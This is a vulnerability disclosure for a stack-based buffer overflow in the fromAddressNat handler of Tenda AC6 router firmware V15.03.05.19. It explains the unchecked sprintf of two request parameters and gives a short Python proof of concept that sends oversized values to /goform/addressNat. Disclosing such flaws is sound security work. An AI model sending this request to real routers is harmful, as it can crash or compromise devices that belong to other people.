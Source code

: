 # Tenda Router AC6 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC6_V15.03.05.19. (The latest version is [AC6_V15.03.05.19](https://www.tenda.com.cn/download/detail-2681.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/210/vlun1.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
